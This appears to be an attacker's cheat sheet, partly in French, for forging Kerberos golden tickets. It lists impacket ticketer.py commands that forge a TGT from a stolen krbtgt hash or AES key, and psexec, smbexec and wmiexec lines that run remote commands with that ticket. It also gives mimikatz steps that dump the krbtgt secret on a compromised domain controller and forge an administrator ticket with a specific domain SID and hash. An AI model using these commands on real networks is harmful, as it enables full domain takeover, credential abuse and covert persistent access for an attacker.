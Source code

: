 # golden ticket

## To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

## To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

## Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

## Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass



## sur le DC compromi lancer mimikatz

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : <...SNIP...>


kerberos::golden /domain:dimotrans.local /sid:S-1-5-21-660215690-1101628366-3719296297 /user:oturan /id:500 /rc4:371c7b9ee2e498b84aaa9dd166f54789 /ptt

• User – The name of the user account the ticket will be created for. This can be a real account name but it doesn’t have to be.
• ID – The RID of the account you will be impersonating. This could be a real account ID, such as the default administrator ID of 500, or a fake ID.
• Groups – A list of groups to which the account in the ticket will belong. This will include Domain Admins by default so the ticket will be created with the maximum privileges.
• SIDs – This will insert a SID into the SIDHistory attribute of the account in the ticket. This is useful to authenticate across domains
• RC4 = hash NTLMmimik

pour utiliser le ticket lancer un prompt:

misc::cmd 

whoami /all



